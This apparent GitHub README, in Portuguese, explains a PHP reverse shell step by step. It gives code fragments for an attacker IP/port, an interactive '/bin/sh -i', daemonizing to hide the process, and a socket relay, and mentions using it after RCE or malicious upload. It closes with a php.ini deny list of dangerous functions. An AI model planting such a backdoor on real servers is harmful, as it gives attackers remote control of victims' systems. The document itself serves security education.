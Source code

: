 
# 🐚 PHP Reverse Shell

Este repositório contém um script de **shell reversa em PHP**, adaptado e comentado em português, ideal para fins educacionais e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**  
> O uso indevido pode violar leis locais e internacionais.  
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é uma shell reversa, ou seja, um tipo de **backdoor** que faz com que o servidor PHP (vítima) se conecte a outro computador (atacante), oferecendo um terminal remoto com o mesmo privilégio do processo PHP (normalmente `www-data`, `apache`, etc.).

### 1. Configuração Inicial

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta do atacante - deve ser alterada
```

- `set_time_limit(0)` → desativa o limite de tempo do script (ele roda indefinidamente).
- `$ip` e `$port` → definem para onde o script PHP irá se conectar.

---

### 2. Comando Inicial

```php
$shell = 'uname -a; w; id; /bin/sh -i';
```

- Executa comandos úteis para identificar o sistema e depois inicia um shell interativo:
  - `uname -a` → informações do sistema operacional.
  - `w` → usuários logados.
  - `id` → UID e grupos do processo.
  - `/bin/sh -i` → shell interativo.

---

### 3. Daemonização (opcional)

```php
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
```

- Se possível, transforma o script em **daemon** (processo de segundo plano):
  - Oculta o processo.
  - Evita "zombies".
- Caso não seja possível, ele continua normalmente e exibe um aviso.

---

### 4. Conexão com o atacante

```php
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```

- Abre uma conexão TCP para o IP/porta do atacante.
- Esse será o canal reverso para o shell.
- Se falhar, o script termina.

---

### 5. Execução do processo do shell

```php
$process = proc_open($shell, $descriptorspec, $pipes);
```

- Inicia um processo `/bin/sh -i` com entrada e saída redirecionadas para pipes.
- Permite redirecionar comandos e saídas via socket TCP.

---

### 6. Torna os streams não bloqueantes

```php
stream_set_blocking(..., 0);
```

- Evita que o script fique travado aguardando leitura ou escrita em um stream.

---

### 7. Loop de comunicação

```php
while (1) {
    ...
}
```

- Loop infinito que:
  - Lê dados do socket (comandos do atacante) → envia ao shell.
  - Lê saída do shell → envia de volta ao socket.
- Atua como um **proxy de terminal interativo** entre vítima e atacante.

---

### 8. Encerramento limpo

- Fecha todos os pipes, socket e termina o processo:
```php
fclose(...);
proc_close(...);
```

---

### 9. Função `printit()`

```php
function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
```

- Exibe mensagens de log no terminal **apenas se não estiver daemonizado**.
- Útil para depuração ou execução manual.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão da empresa/cliente.
- Simulações de ataque para avaliar respostas de segurança.
- Análises forenses e educacionais.

---

## 💡 Conclusão Técnica

Este script:

- Cria um canal de comunicação reverso (inbound no atacante, outbound na vítima).
- Permite execução remota de comandos em tempo real.
- Não depende que a vítima tenha portas abertas — apenas que o PHP tenha funções habilitadas.
- Muito útil em exploração de vulnerabilidades como RCE, LFI+log poisoning ou upload malicioso.

---

## 🛡️ Proteção recomendada

No `php.ini`, desative funções perigosas para evitar exploração:

```ini
disable_functions = proc_open, shell_exec, system, passthru, exec, popen, fsockopen
```

---

## 🧑‍💻 Autor

- Jadson Lima: [h4ckthreat](mailto:h4ckthreat@gmail.com)

---

## 📄 Licença

Distribuído sob a [GNU GPL v2](https://www.gnu.org/licenses/old-licenses/gpl-2.0.html).
